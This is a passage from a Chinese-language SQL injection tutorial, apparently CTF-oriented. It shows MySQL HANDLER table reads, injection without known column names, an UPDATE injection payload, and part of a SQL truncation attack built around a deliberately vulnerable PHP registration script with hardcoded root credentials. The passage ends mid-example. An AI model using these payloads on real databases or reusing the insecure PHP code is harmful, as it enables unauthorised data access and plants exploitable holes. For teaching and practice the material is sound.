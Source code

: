如：通过handler语句查询users表的内容

```sql
handler users open as yunensec; #指定数据表进行载入并将返回句柄重命名
handler yunensec read first; #读取指定表/句柄的首行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
...
handler yunensec close; #关闭句柄
```

#### 0x0b 无列名注入

在不知道列名的情况下，除了使用order by盲注外，还可以直接使用select进行盲注，即select无列名注入。例如：

```sql
select `1` from (select 1,2,3 union select * from users) as a;
```

具体可以参考[V1lu0实验室招新hard_sql](https://github.com/su29029/su29029.github.io/blob/master/_posts/2020-6-23-V1lu0%E5%AE%9E%E9%AA%8C%E5%AE%A4%E6%8B%9B%E6%96%B0hard_sql.md)或[CNSS 2019招新hard_sql](https://x5tar.com/2019/10/24/cnss-recruit-2019-web/#hard-sql)。

#### 0x0c 其他

##### UPDATE注入重复字段赋值
即：```UPDATA table_name set field1=new_value,field1=new_value2 [where子句]```，最终field1字段的内容为new_value2，可用这个特性来进行UPDATA注入。如：

```UPDATE table_name set field1=new_value,field1=(select user()) [where子句]```

##### sql约束攻击

举个例子，假设我们创建了一个数据表：
```sql
CREATE TABLE users(
    username varchar(25),
    password varchar(25)
)
```

这时候我们进行登录注册的相关代码：
```
// 注册
<?php
$conn = mysqli_connect("127.0.0.1:3306", "root", "root", "db");
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
$username = addslashes(@$_POST['username']);
$password = addslashes(@$_POST['password']);
$sql1 = "select * from users where username = '$username'";
$rs = mysqli_query($conn,$sql1);
if($rs->fetch_row()){
    die('账号已注册');
}else{
    $sql2 = "insert into users values('$username','$password')";
    mysqli_query($conn,$sql2);
    die('注册成功');
}
?>

// 登录
<?php
$conn = mysqli_connect("127.0.0.1:3306", "root", "root", "db");
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
```